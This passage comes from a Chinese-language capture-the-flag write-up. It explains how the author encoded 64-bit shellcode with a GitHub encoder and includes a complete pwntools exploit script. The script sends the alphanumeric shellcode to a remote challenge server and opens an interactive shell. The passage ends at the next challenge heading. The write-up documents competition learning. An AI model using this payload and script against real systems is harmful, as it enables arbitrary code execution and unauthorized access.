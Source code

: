 但是file发现是64位的，而msfvenom中并没有对应的编码器

然后又是漫长地搜索资料时间

最后发现可以用

Github上的 shellcode_encoder来Encode

于是由从http://shell-storm.org/shellcode/整了一个相应的shellcode 写到shell.bin里 然后找到对应的地址rax+29

```cpp
python2 main.py shellcode rax+29
```

> 因为其中奇奇怪怪的转义符号，最后还是手写了个脚本把字符串转成了对应的hex。。。。。。

```python
#coding=utf-8
from pwn import *
context(arch = 'amd64', os = 'linux')

token="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
dist=remote("202.38.93.241","10004")
#dist=process("./chall3")
shellcode="\x50\x50\x54\x41\x59\x41\x58\x56\x49\x33\x31\x56\x58\x58\x58\x66\x2d\x24\x3f\x66\x2d\x7a\x78\x66\x2d\x45\x48\x50\x5a\x54\x41\x59\x41\x58\x56\x49\x33\x31\x56\x58\x50\x50\x5b\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x62\x2b\x65\x32\x2d\x28\x20\x5f\x60\x35\x3e\x3f\x3f\x5f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x49\x4f\x46\x60\x2d\x41\x60\x21\x20\x35\x3e\x5f\x37\x3b\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x3c\x68\x68\x29\x2d\x68\x60\x20\x20\x35\x6e\x3f\x3f\x3f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x40\x7b\x23\x27\x2d\x75\x78\x20\x40\x35\x4f\x36\x3f\x5f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x40\x23\x36\x70\x2d\x42\x20\x30\x60\x35\x76\x3f\x5f\x3f\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x32\x20\x75\x40\x2d\x26\x40\x40\x20\x35\x2d\x5f\x3f\x77\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x53\x58\x2d\x20\x58\x22\x50\x2d\x20\x40\x7e\x70\x35\x58\x66\x5f\x3f\x50\x5f\x48\x63\x34\x3a\x31\x34\x3a\x53\x58\x2d\x20\x38\x30\x31\x2d\x20\x40\x20\x20\x35\x3f\x65\x3f\x3e\x50\x5e\x31\x34\x3a\x57\x58\x2d\x3f\x3f\x3f\x3f\x2d\x7d\x60\x61\x43\x2d\x40\x60\x5f\x7d\x50\x5f\x53\x58\x2d\x20\x60\x23\x51\x2d\x40\x60\x7d\x3f\x35\x3c\x3e\x5f\x6f\x50\x5e\x53\x58\x2d\x79\x60\x62\x42\x2d\x49\x40\x3e\x7e\x35\x26\x5f\x5f\x3f\x50\x5f\x41\x41\x41\x41\x7a\x5f\x48\x4c\x63\x20\x43\x6e\x59\x69\x3f\x6f\x4a\x6b\x61\x2a\x5d\x57\x3a\x2f\x58\x32\x34\x6a\x7d\x7e\x4f\x23\x48\x29\x21\x35\x45\x5a\x31\x70\x67\x7d\x3e\x56\x75\x6e\x5d\x3b\x3c\x64\x4f\x70\x23\x78\x6c\x26\x4f\x64\x42\x28\x63\x5b\x64\x30\x5e\x3f\x2d\x41\x47\x4b\x5d\x3f\x66\x39\x31\x41\x75\x77\x29\x6c\x63\x61\x2a\x47\x41\x5e\x59\x31\x78\x68\x37\x25\x4f\x2f\x2e\x7e\x37\x28\x39\x2d"
dist.recvuntil("Please input your token: ")
dist.sendline(token)
dist.send(shellcode)
dist.interactive()
```

### 0x0B 三教奇妙夜

看了一下发现有很多相同帧
